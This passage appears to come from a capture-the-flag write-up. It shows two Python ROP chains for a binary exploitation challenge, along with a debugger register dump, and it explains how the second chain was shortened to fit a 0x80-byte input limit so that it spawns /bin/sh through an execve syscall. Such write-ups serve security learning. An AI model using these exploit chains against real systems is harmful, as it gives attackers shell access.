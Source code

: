 ```bash
rop += rebase_0(0x000000000000e000)
rop += rebase_0(0x000000000000566b) # 0x000000000040566b: pop rsi; ret; 
rop += rebase_0(0x000000000000e008)
rop += rebase_0(0x0000000000001139) # 0x0000000000401139: pop rdx; ret; 
rop += rebase_0(0x000000000000e008)
rop += rebase_0(0x0000000000001001) # 0x0000000000401001: pop rax; ret; 
rop += p(0x000000000000003b)
rop += rebase_0(0x0000000000004b51) # 0x0000000000404b51: syscall; ret; 
print(rop)
```
However, there was one issue: we were limited to 0x80 bytes of input due to fgets, and this ROP chain was too large.
Thankfully, some registers were already set to helpful values when the chain was triggered:


```bash
Registers:
 RAX  0x3d
 RBX  1
 RCX  0x3d
 RDX  0
 RDI  0x3d
 RSI  0
 R8   0x1c
 R9   0x3d
 R10  7
 R11  0x202
 R12  0x4013ed (main) ◂— endbr64 
 R13  0x7fffffffdcf8 —▸ 0x7fffffffe0b6 ◂— 'COLORFGBG=15;0'
 R14  0
 R15  0
 RBP  0x7fffffffdca0 —▸ 0x7fffffffdce8 —▸ 0x7fffffffe061
 RSP  0x7fffffffdc98 —▸ 0x40144a (main+93) ◂— mov eax, 0
 RIP  0x4013ec (training+126) ◂— ret 
```

So the new ROP is this:

```bash
from struct import pack

p = lambda x : pack('Q', x)

IMAGE_BASE_0 = 0x0000000000400000 # 7bf5f772c59b6cc7854de1212fa8c99ec9bf25e33a4b0cd6c251200852dd2c2b
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

rop = b''

rop += rebase_0(0x0000000000001001) # 0x0000000000401001: pop rax; ret;
rop += b'//bin/sh'
rop += rebase_0(0x0000000000001d6c) # 0x0000000000401d6c: pop rdi; ret;
rop += rebase_0(0x000000000000e000)
rop += rebase_0(0x00000000000020f5) # 0x00000000004020f5: mov qword ptr [rdi], rax; ret;
rop += rebase_0(0x0000000000001001) # 0x0000000000401001: pop rax; ret;
rop += p(0x0000000000000000)
rop += rebase_0(0x0000000000001d6c) # 0x0000000000401d6c: pop rdi; ret;
rop += rebase_0(0x000000000000e008)
rop += rebase_0(0x00000000000020f5) # 0x00000000004020f5: mov qword ptr [rdi], rax; ret;
rop += rebase_0(0x0000000000001d6c) # 0x0000000000401d6c: pop rdi; ret;
rop += rebase_0(0x000000000000e000)
rop += rebase_0(0x0000000000001001) # 0x0000000000401001: pop rax; ret;
rop += p(0x000000000000003b)
rop += rebase_0(0x0000000000004b51) # 0x0000000000404b51: syscall; ret;
print(rop)
```